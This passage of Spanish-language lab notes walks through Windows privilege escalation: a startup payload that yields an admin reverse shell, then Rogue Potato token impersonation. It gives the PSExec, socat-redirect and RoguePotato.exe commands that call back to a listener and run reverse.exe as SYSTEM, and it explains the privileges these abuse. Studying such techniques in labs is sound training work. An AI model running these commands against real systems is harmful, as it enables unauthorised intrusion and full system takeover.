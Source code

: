 Ahora nos ponemos en esuchca con netcat y tendremos que inidicar una conexión por RDP
![[Pasted image 20240722134334.png]]

Ahora una vez hayamos iniciado sesión y el sistema haya ejecutado los programa de inicio se ejecutara nuestro paylaod y obtendremos nuestra reverse shell como admin
![[Pasted image 20240722134455.png]]

# **Token Impersonation - Rogue Potato**
```
https://github.com/antonioCoco/RoguePotato
```

Comenzamos desde RDP con permisos del usuario `admin`
![[Pasted image 20240723090736.png]]

Ahora nos generamos una reverse shell como `nt authority\local`
```
C:\PrivEsc\PSExec64.exe -i -u "nt authority\local service" C:\PrivEsc\reverse.exe
```
![[Pasted image 20240723080446.png]]
![[Pasted image 20240723090847.png]]

Ahora ejecutamos el siguiente comando de socat para redireccionar el trafico del puerto 135 el cual es por el que tenemos que escuchar para este ataque y lo redirige por el puerto 9999. Esto simula el tráfico DCOM/RPC en el puerto 135 y lo redirige al puerto 9999
```
sudo socat tcp-listen:135,reuseaddr,fork tcp:10.10.123.207:9999
```
![[Pasted image 20240723090937.png]]

Y ahora volvemos a ponernos a la escucha con netcat y ejecutando la herramienta de `roguepotato` obtenemos el token de `System` en la otra reverse shell.
Rogue Potato se conecta a la IP 10.9.0.184 (en el puerto que normalmente sería 135, pero debido a `socat`, se redirige al puerto 9999) y utiliza esa conexión para ejecutar `reverse.exe` en el sistema comprometido con privilegios elevados
```
C:\PrivEsc\RoguePotato.exe -r 10.9.0.184 -e "C:\PrivEsc\reverse.exe" -l 9999
```
![[Pasted image 20240723091018.png]]
![[Pasted image 20240724093838.png]]
![[Pasted image 20240723092743.png]]

Si revisamos socat podemos ver la conexión como la ha detectado
![[Pasted image 20240724093955.png]]

Estos son los dos procesos importantes antes de ejecutar `roguepotato` para poder escalar los privilegios
![[Pasted image 20240723091518.png]]
- **SeImpersonatePrivilege**: Este permiso permite a un proceso suplantar la identidad de otro proceso. Es fundamental para muchas técnicas de escalada de privilegios, ya que permite que un proceso menos privilegiado actúe como otro con mayores privilegios. En el contexto de esta tarea, es utilizado por `RoguePotato` para obtener el token SYSTEM.
- **SeAssignPrimaryTokenPrivilege**: Este privilegio permite a un proceso reemplazar el token de seguridad de un proceso. Es importante para la creación de procesos con credenciales diferentes a las originales del proceso que los inicia. En la tarea, después de obtener el token SYSTEM, este permiso es utilizado para lanzar `reverse.exe` con los privilegios elevados.

